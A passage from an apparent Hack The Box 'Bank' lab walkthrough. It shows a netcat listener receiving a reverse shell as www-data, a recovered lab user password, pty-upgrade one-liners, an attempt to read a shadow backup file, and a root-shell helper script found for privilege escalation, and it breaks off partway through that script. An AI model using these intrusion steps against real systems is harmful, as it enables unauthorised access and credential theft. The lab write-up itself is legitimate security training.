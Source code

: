 And we can see we even get a link to our file. So let's set up our listener and try it:

```
kali@kali:~/htb/Bank$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.29.200 41762
whoami
www-data
```

Sick, we got access. I cd back one and find a file named bankreports.txt.


```
cat bankreports.txt
+=================+
| HTB Bank Report |
+=================+

===Users===
Full Name: Christos Christopoulos
Email: chris@bank.htb
Password: !##HTBB4nkP4ssw0rd!##
CreditCards: 2
Transactions: 8
Balance: 1.337$
===Users===
```
And we can actually access the user flag with the www-data account. 

I also run `script /dev/null -c bash` to create a Pseudo terminal(pty) to use. 

But you can also use `python -c 'import pty; pty.spawn("/bin/bash")'`
or `python3 -c 'import pty; pty.spawn("/bin/bash")'` (And some more here: https://netsec.ws/?p=337 )

I’m then gonna elevate this shell to have some more functionalities: Check this link out if interested:
https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/

So I run around in the box a bit until I discover emergency in the /htb/ folder:

```
www-data@bank:/var/backups$ cat shadow.bak 
cat: shadow.bak: Permission denied
www-data@bank:/var/backups$ cd ..
www-data@bank:/var$ ls
backups  crash  lib    lock  mail  run    tmp
cache    htb    local  log   opt   spool  www
www-data@bank:/var$ cd htb/
www-data@bank:/var/htb$ ls
bin  emergency
www-data@bank:/var/htb$ cd emergency 
bash: cd: emergency: Not a directory
www-data@bank:/var/htb$ ls
bin  emergency
www-data@bank:/var/htb$ cat emergency
#!/usr/bin/python
import os, sys

def close():
        print "Bye"
        sys.exit()

def getroot():
        try:
                print "Popping up root shell..";
                os.system("/var/htb/bin/emergency")
```